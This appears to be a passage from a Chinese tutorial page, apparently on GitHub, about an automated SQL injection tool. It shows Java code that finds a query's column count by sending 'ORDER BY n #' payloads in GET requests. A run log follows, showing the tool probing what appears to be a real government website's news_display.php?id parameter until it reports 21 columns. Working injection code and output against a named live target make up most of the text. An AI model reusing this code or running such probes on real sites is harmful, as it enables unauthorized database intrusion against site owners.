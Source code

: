 ```
                System.out.println("************开始精确匹配*****************");
                Map<String,Object> sb2 = HttpHelper.sendGet(uri, parameter.replace(key, key+"+orDer+By+"+end+"+%23"));
                Map<String,Object> sb3 = HttpHelper.sendGet(uri, parameter.replace(key, key+"+orDer+By+"+(end+1)+"+%23"));
                if (((String)sb3.get("content")).length()!=((String)sb2.get("content")).length()&&200==(Integer)sb2.get("status")) {
                    System.out.println("order by 字段数为:"+end);
                    sbCount = end;//设置字段长度为当前检测出来的长度
                    return index = end;
                }else {
                    end++;
                }
            }
        }else {
            end = end/2;
            getSbCount(key, len1);
        }
        return index;
    }

```

利用检测是否存在SQL注入的原理同样能过检测出查询的字段数。我们通过二分去order一个by 一个数然后去请求分析页面一致性。然后不停的去修改数值最终结果相等即可获得字段数。上面的分析的代码挺简单的，有兴趣的同学自己去看。日志如下：

```
************开始精确匹配*****************
url:http://www.tchjbh.gov.cn/news_display.php
param:id=148+orDer+By+15+%23
url:http://www.tchjbh.gov.cn/news_display.php
param:id=148+orDer+By+16+%23
************开始精确匹配*****************
url:http://www.tchjbh.gov.cn/news_display.php
param:id=148+orDer+By+16+%23
url:http://www.tchjbh.gov.cn/news_display.php
param:id=148+orDer+By+17+%23
************开始精确匹配*****************
url:http://www.tchjbh.gov.cn/news_display.php
param:id=148+orDer+By+17+%23
url:http://www.tchjbh.gov.cn/news_display.php
param:id=148+orDer+By+18+%23
************开始精确匹配*****************
url:http://www.tchjbh.gov.cn/news_display.php
param:id=148+orDer+By+18+%23
url:http://www.tchjbh.gov.cn/news_display.php
param:id=148+orDer+By+19+%23
************开始精确匹配*****************
url:http://www.tchjbh.gov.cn/news_display.php
param:id=148+orDer+By+19+%23
url:http://www.tchjbh.gov.cn/news_display.php
param:id=148+orDer+By+20+%23
************开始精确匹配*****************
url:http://www.tchjbh.gov.cn/news_display.php
param:id=148+orDer+By+20+%23
url:http://www.tchjbh.gov.cn/news_display.php
param:id=148+orDer+By+21+%23
************开始精确匹配*****************
url:http://www.tchjbh.gov.cn/news_display.php
param:id=148+orDer+By+21+%23
url:http://www.tchjbh.gov.cn/news_display.php
param:id=148+orDer+By+22+%23
order by 字段数为:21
skey:id=148
```